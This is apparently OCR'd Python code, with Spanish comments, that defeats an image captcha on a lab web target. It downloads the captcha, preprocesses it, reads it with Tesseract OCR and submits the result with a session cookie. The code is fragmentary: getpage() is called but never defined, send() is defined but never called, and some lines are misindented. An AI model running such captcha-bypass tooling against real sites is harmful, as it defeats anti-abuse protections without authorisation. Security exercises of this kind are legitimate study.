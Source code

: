 ```python
def getcaptcha():
    try:
        print("[+] Descargando Captcha"); 
        captchaurl = "http://192.168.100.167/captcha/example7/captcha.png?t="+token[0] 
        urlretrieve(captchaurl,'captcha.png')
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");


def resizer():
 print("[+] Redimensionando...");
 im1 = Image.open("captcha.png")
 width, height = im1.size
 im2 = im1.resize((int(width*5), int(height*5)), Image.BICUBIC)
 im2.save("captcha1.png")

os.system('convert captcha1.png -white-threshold 1% captcha2.png')
 
def tesseract():
    try:
        print("[+] Ejecutando Tesseract...");
        #Run Tesseract, -psm 8, tells Tesseract we are looking for a single word 
        #subprocess.call(['tesseract', 'captcha1.png', 'output', '-psm', '8'])
        subprocess.call(['tesseract', 'captcha1.png', 'output', '8'])
        f = open ("output.txt","r")
        global cvalue
  #Borra los espacios en blanco y las nuevas lineas de la salida Tesseract
        cvaluelines = f.read().replace(" ", "").split('\n')
        cvalue = cvaluelines[0]
        print("-----Captcha: " + cvalue); 
    except Exception as e:
        print ("Error: " + str(e))

  
def send():
    try:
        print("[+] Enviando peticion...");
        urlconcaptcha = "http://192.168.100.167/captcha/example7/submit?captcha="+str(cvalue)+"&Submit+Query"
        print("-----URL: " + urlconcaptcha);
        request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
        f = urlopen(request)
        response = f.read().decode('utf-8')
        #print(response)
        exito = re.search('Success', response)
        if exito:
            print("-----Conseguido!")
        else:
            print ("-----Fallo!")
    except Exception as e:
        print ("Error: " + str(e))


print("[+] Inicio!");
#Descarga la página y la parsea
getpage();
#Descarga la imagen del captcha
getcaptcha();
#Redimensiona la imagen del captcha 
resizer();
#Usa Tesseract para analizar la imagen del captcha
tesseract();
#Envia la peticion al sitio con los datos del formulario y el captcha
```